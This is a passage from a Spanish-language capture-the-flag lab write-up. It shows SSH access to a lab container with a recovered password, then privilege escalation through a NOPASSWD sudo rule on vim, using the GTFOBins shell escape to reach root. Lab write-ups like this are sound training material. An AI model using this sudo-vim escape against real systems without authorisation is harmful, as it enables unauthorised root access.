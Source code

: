 El resultado nos arroja una contraseña donde conseguimos entrar en el sistema objetivo.

```
> ssh russoski@172.17.0.2
russoski@172.17.0.2's password:

Welcome to Ubuntu 24.04 LTS (GNU/Linux 6.10.9-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Tue Jun 18 04:38:10 2024 from 172.17.0.1
russoski@7646d085583b:~$
```

# Escalada de privilegios

Una vez dentro investigamos los comandos que podemos ejecutar con permisos `sudo` y vemos que podemos ejecutar el binario **vim**.

```
russoski@7646d085583b:~$ sudo -l
Matching Defaults entries for russoski on 7646d085583b:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User russoski may run the following commands on 7646d085583b:
    (root) NOPASSWD: /usr/bin/vim
```

Si investigamos en la página web de [GTFOBINS](https://gtfobins.github.io/) vemos como podemos conseguir una shell con permisos sudo.

![](../../../Images/Pasted%20image%2020241008162323.png)

```
russoski@7646d085583b:~$ sudo /usr/bin/vim -c ':!/bin/sh'

# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
#
```